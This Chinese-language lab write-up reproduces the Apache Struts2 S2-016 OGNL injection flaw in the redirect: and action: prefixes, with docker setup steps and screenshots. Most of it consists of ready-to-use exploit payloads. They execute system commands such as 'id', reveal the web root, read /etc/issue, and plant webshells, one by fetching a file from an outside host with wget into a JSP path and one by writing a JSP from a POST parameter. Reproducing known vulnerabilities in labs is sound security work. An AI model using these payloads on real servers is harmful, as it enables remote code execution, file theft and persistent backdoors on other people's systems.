 # S2-016

## 概述

在struts2中，DefaultActionMapper类支持以```"redirect:"、"redirectAction:"、"action:"```作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

## 环境搭建

	docker pull medicean/vulapps:s_struts2_s2-016
 	docker run -d -p 8082:8080 medicean/vulapps:s_struts2_s2-016


## 影响版本

2.0.0 - 2.3.15

## 复现

**不要忘记对OGNL表达式进行URL编码**

	http://ip:port/XXX.action?action:OGNL expression to execute an OGNL expression.

有时候报错，因为配置文件没有设置 action 映射。

![](2.png)

<br/>

![](3.png)

<br/>

![](1.png)

### poc

	${#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#a.println("HACKER"),#a.close()}

![](10.png)

### 1.命令执行

payload1:

	redirect:${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}

这种载荷较简洁，此种方式的回显在location中：

![](5.png)

payload2:

	redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("id").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}

这种载荷较长，此种回显在响应体里：

burp 截图：

![](6.png)

wireshark 截图：

![](4.png)

### 2.Get web directory

	redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}

burp 截图：

![](7.png)

wireshark 截图：

![](8.png)


### 3.任意文件读取

	${#d=new java.io.FileReader('/etc/././issue'),#e=new java.io.BufferedReader(#d),#f=#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine(),#e.close(),#d.close(),#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#b=#a.getWriter(),#b.println(#f),#b.flush(),#b.close()}

view HTTP Stream:

![](11.png)

### 4.写webshell

1.wget 写shell：

	redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','-O','/root/1.jsp'})).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#lee=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter().println(#d),#lee.flush(),#lee.close()}

写入成功：

![](9.png)

[Struts2 S2-016/S2-017 命令执行带回显、看web路径、getshell exp整理](https://blog.csdn.net/god_7z1/article/details/9636847)

2.直接 get上传webshell

网上的poc均失败。

http://www.mamicode.com/info-detail-346593.html

3.post上传webshell

	redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23resp%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23resp.getWriter().print(%22o%22),%23resp.getWriter().print(%22k%22),%23resp.getWriter().flush(),%23resp.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%22%2Fusr%2Flocal%2Ftomcat%2Fwebapps%2FROOT%2Fa.jsp%22)).append(%23req.getParameter(%22c%22)).close()}&c=Struts2%20Exploit%20Test

成功。

view HTTP Stream:

![](12.png)

![](13.png)

4.k8 tools 上传wshell

与 post上传webshell一致。

![](14.png)

